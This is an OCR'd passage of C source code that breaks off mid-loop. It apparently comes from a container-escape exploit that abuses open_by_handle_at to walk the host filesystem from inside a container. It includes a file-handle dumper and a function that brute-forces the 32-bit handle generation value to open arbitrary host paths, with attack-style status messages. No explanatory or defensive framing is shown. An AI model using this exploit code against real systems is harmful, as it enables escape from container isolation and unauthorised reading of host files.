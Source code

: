 ```c
void dump_handle(const struct my_file_handle *h)
{
fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
h->handle_type);
for (int i = 0; i < h->handle_bytes; ++i) {
fprintf(stderr,"0x%02x", h->f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr,"\n");
if (i < h->handle_bytes - 1)
fprintf(stderr,", ");
}
fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR *dir = NULL;
struct dirent *de = NULL;
path = strchr(path, '/');
// recursion stops if path has been resolved
if (!path) {
memcpy(oh->f_handle, ih->f_handle, sizeof(oh->f_handle));
oh->handle_type = 1;
oh->handle_bytes = 8;
return 1;
}

++path;
fprintf(stderr, "[*] Resolving '%s'\n", path);
if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
die("[-] open_by_handle_at");
if ((dir = fdopendir(fd)) == NULL)
die("[-] fdopendir");
for (;;) {
de = readdir(dir);
if (!de)
break;
fprintf(stderr, "[*] Found %s\n", de->d_name);
if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
ino = de->d_ino;
break;
}
}

fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
if (de) {
for (uint32_t i = 0; i < 0xffffffff; ++i) {
outh.handle_bytes = 8;
outh.handle_type = 1;
memcpy(outh.f_handle, &ino, sizeof(ino));
memcpy(outh.f_handle + 4, &i, sizeof(i));
if ((i % (1<<20)) == 0)
fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
closedir(dir);
```